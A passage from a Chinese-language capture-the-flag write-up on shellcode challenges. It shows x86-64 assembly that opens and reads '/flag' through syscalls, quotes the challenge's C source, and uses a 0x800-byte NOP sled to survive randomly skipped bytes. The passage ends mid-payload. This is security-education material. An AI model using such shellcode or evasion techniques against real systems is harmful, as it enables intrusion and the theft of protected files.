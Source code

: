 ```asm
    syscall

    ; exit(0)
    xor rdi, rdi                      ; 返回码 0
    mov rax, 60                       ; SYS_exit
    syscall

error:
    ; exit(1)
    mov rdi, 1                        ; 返回码 1
    mov rax, 60                       ; SYS_exit
    syscall
```

## level2

这一关相较于上一关，在shellcode运行之前，程序随机跳过开始的0x800个字节。所以我们需要在程序开始之前的0x800个字节添加NOP指令。

```c
puts("Executing filter...\n");
puts("This challenge will randomly skip up to 0x800 bytes in your shellcode. You better adapt to that! One way to evade this");
puts("is to have your shellcode start with a long set of single-byte instructions that do nothing, such as `nop`, before the");
puts("actual functionality of your code begins. When control flow hits any of these instructions, they will all harmlessly");
puts("execute and then your real shellcode will run. This concept is called a `nop sled`.\n");
srand(time(NULL));
int to_skip = (rand() % 0x700) + 0x100;
shellcode_mem += to_skip;
shellcode_size -= to_skip;
```

利用代码
```asm
BITS 64

section .data
    filename db '/flag', 0    ; 文件路径需要替换为正确的路径

section .bss
    buffer resb 100                   ; 100 字节缓冲区

section .text
global _start


; 在 .text 段前插入 0x800 个 nop 指令
nop_space:
    times 0x800 nop           ; 0x800 个 nop 指令

_start:
    ; open("filename", O_RDONLY)
    xor rax, rax
    mov rax, 2                        ; SYS_open
    lea rdi, [rel filename]
    xor rsi, rsi                      ; O_RDONLY = 0
    syscall

    ; 检查 open 的返回值
    test rax, rax
    js error                          ; 如果打开文件失败，跳转到错误处理

    ; read(fd, buffer, 100)
```